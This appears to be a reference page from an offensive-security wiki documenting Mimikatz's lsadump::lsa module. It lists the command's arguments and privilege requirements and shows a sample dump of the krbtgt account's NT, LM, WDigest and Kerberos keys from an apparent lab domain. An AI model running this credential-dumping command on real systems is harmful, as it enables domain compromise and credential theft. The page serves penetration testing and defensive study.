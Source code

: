 # lsa

`lsadump::lsa` extracts hashes from memory by asking the LSA server. The `patch` or `inject` takes place on the fly. It has the following command line arguments:

It extracts hashes from memory by asking the LSA server. The `patch` or `inject` takes place on the fly. It has the following command line arguments:

* `/name` or `/user` : the target user account
* `/id` : the RID (relative identifier) for the target account (500 for Administrator)
* `/patch` : Only dumps the LM and NT password hashes
* `/inject` : when run on a workstation, it will dump the LM and NT password hashes. When run on domain controller is will dump LM, NT, Wdigest, Kerberos keys and password history.

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "NTLM" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="warning" %}
This command requires elevated privileges (by previously running [privilege::debug](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : hacklab / S-1-5-21-2725560159-1428537199-2260736313

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : b5348d0a20a24a67ff544146a09cd292
    LM   :
  Hash NTLM: b5348d0a20a24a67ff544146a09cd292
    ntlm- 0: b5348d0a20a24a67ff544146a09cd292
    lm  - 0: 90e43747fb3e2459bc0fbd4c64a48ab4

 * WDigest
    01  96336fb9042f4823a864a9a9ea953d92
    02  f02b41fe320a26b54de6278bf432ea6b
    03  c4d6aef8b8382e686fdf2d8bb9ed4325
    04  96336fb9042f4823a864a9a9ea953d92
    05  f02b41fe320a26b54de6278bf432ea6b
    06  6db8e37630a2ccb50d640b7e0575a75d
    07  96336fb9042f4823a864a9a9ea953d92
    08  eca32a7c67f70dcd78116b548428644a
    09  eca32a7c67f70dcd78116b548428644a
    10  65ff3b022e3c992e06672a9013e9e375
    11  2faee2bbb7f3ce7eea4da160314992c1
    12  eca32a7c67f70dcd78116b548428644a
    13  8208f726be15c605b1d9531b3f6ceb68
    14  2faee2bbb7f3ce7eea4da160314992c1
    15  4097da3573ce0e22b396f673cb338223
    16  4097da3573ce0e22b396f673cb338223
    17  fa880afaaeb637fafed4121f58ae1c0e
    18  20ad95aaa3a05e5bb731bfefbd7ee823
    19  d46bc56e4021f6410468193dc7d05e58
    20  4d01f91984530f183381bdf5f0605f63
    21  1b415947d31439c2e59ecb8a0cd3daeb
    22  1b415947d31439c2e59ecb8a0cd3daeb
    23  0c54e140ce4d3af2150f66672338f6f3
    24  12f6af7e274f18cc1299f792f81610f8
    25  12f6af7e274f18cc1299f792f81610f8
    26  b68781315989472c4536e52359a0c999
    27  293f6790b0e67296db60f201ef15d75b
    28  18b300eeed3faeb12fe39754ec4537ef
    29  b00feb2fe6a6218228116b62612d6946

 * Kerberos
    Default Salt : HACKLAB.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 97ec73858998ae68

 * Kerberos-Newer-Keys
    Default Salt : HACKLAB.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 3ab45a59d37a5a647e0d7d9d942d0e8b77911cff0bd95b16e203cd9503ccdd96
      aes128_hmac       (4096) : 3c8fc2890213fb9be3d6fb139b1be881
      des_cbc_md5       (4096) : 97ec73858998ae68

 * NTLM-Strong-NTOWF
    Random Value : 48d7d89c1608b83db8c568251f8b810f
```
